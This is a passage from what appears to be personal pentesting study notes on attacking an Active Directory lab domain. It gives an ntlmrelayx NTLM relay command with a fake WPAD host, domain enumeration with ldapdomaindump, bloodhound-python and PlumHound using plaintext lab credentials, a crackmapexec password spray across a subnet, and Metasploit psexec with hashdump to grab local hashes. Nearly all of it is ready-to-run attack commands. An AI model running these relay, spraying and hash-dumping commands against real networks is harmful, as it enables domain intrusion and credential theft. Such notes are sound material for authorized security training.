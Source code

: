 2.At the same time, open **ntlmrelayx.py**
```bash
ntlmrelayx.py -6 -t ldaps://192.168.138.136 -wh fakewpad.marvel.local -l lootme
```

3.You will get results like this from **'/home/kali/lootme/domain_computers.html'**


# Post Compromise Enumeration for Active Directory

Domain Enumeration with **ldapdomaindump**=>
1.Run below command
```bash
sudo ldapdomaindump ldaps://192.168.138.136 -u 'MARVEL\fcastle\' -p Password1
```
2.Then do **ls** command to see all things.

Domain Enumeration with **bloodhound-python**=>
1.Run below command
**-ns option** means your DC(Domain Controller's IP)

```bash
sudo bloodhound-python -d MARVEL.local -u fcastle -p Password1 -ns [DC-IP] -c all 
```

2.Then do **ls** command to see all things.
If you want to see via GUI, you just upload .json file into Bloodhound.

Domain Enumeration with **Plumhound**=>

When you do below command, **Bloodhound** should be up!
1.
```bash
sudo python3 PlumHound.py --easy -p [YOUR_PASS]
```

2.Another thing for all.
```bash
sudo python3 PlumHound.py -x tasks/default.tasks -p [YOUR_PASS]
```

3.Finally, by opening Firefox, you can look at results.

# Post Compromise Attacks for Active Directory

Pass the Password=>
```bash
crackmapexec smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1
```

Grab some local hashes=>

First Way:

For this, we can use meterpreter by using hashdump.
```bash
use windows/smb/psexec
run
hasdump #you will get hashes of users.
```
